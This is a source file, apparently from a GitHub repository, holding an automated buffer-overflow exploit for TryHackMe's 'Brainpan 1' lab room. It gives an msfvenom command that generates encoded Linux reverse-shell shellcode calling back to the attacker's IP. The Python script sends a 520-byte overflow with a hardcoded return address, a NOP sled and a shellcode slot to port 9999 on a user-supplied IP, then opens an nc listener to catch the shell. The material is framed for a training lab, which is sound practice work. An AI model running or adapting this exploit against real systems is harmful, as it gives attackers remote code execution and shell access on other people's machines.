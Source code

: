 # TryHackMe's "Brainpan 1" room (https://tryhackme.com/room/brainpan).

# First of all create your shellcode for linux with:
(msfvenom -p linux/x86/  shell_reverse_tcp LHOST=VPN IP LPORT=4444 EXITFUNC=thread -f c -e x86/shikata_ga_nai -a x86 -b "\x00")
# Introduce the shellcode in the payload.

```
import socket
import subprocess
import time



print ("Autopwnd TryHackMe's Brainpan 1 room (https://tryhackme.com/room/brainpan).")
print ("Please first of all read README.md")
victim = input("Enter your ip you want to attack:")

ip = victim
port = 9999

#badchars = \x00

#Return Direcction (0x311712f3)

prefix = ""
offset = 0
overflow = "A" * offset
retn = "\xf3\x12\x17\x31"
padding = ""
payload = "\x41" * 520
payload += retn
payload += "\x90" * 30
payload += (ENTER YOUR SHELLCODE HERE)
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")

command = "nc -nvlp 4444" # Chage this if you change the port doing your shellcode introduced on payload
subprocess.call(command, shell=True)
```
